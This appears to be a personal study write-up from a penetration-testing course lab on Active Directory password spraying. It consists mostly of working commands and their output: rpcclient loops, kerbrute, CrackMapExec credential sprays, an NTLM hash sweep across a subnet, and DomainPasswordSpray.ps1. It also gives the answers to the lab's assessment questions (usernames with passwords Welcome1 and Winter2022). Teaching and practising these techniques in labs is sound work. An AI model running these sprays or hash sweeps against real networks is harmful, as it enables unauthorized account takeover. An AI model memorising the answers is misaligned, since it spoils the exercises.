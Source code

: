 ```yaml
---
description: >-
  Previous section we already created a wordlist, now we can execute our attack
  using windows and linux.
---
```


# Spraying

## Internal Password Spraying - from Linux

**Using a Rpcclient + Bash one-liner for the Attack**

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

As seen, we performed grep with the password spraying attack to filter all the failed attempts and show only successful connection.

**Using Kerbrute for the Attack**

```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```

**Using CrackMapExec & Filtering Logon Failures**

```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

**Validating the Credentials with CrackMapExec**

```shell-session
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

There is a possibility that the password is being reused in multiple accounts throughout the domain users. If we are able to guess the password or compromise one we can try with same password on their admin account (if they have one).&#x20;

In some case we might only get a NTLM has for local admin account from local SAM DB. we can spray the NT hash across the subnet to hunt for local administrator accounts with same password.

**Local Admin Spraying with CrackMapExec**

```shell-session
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

* \--local-auth -> only attemtp to login one time on heach machine (to avoid lockouts)

## Linux - Assessment

Find the user account starting with the letter "s" that has the password Welcome1. Submit the username as your answer.

```
sbrown@inlanefreight.local
srosario@inlanefreight.local
sinman@inlanefreight.local
strent@inlanefreight.local
sgage@inlanefreight.local
```

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 svalid_user.txt  Welcome1                      

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 07/03/23 - Ronnie Flathers @ropnop

2023/07/03 04:09:08 >  Using KDC(s):
2023/07/03 04:09:08 >   172.16.5.5:88

2023/07/03 04:09:08 >  [+] VALID LOGIN:  sgage@inlanefreight.local:Welcome1
2023/07/03 04:09:08 >  Done! Tested 5 logins (1 successes) in 0.050 seconds
```

**sgage@inlanefreight.local:Welcome1**

## Internal Password Spraying - from Windows

**Using DomainPasswordSpray.ps1**

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success
```

## Windows - Assessment

Using the examples shown in this section, find a user with the password Winter2022. Submit the username as the answer.

```
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Winter2022 -OutFile spray_success -ErrorAction SilentlyContinue
```

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption><p>User:dbranch Password:Winter2022</p></figcaption></figure>













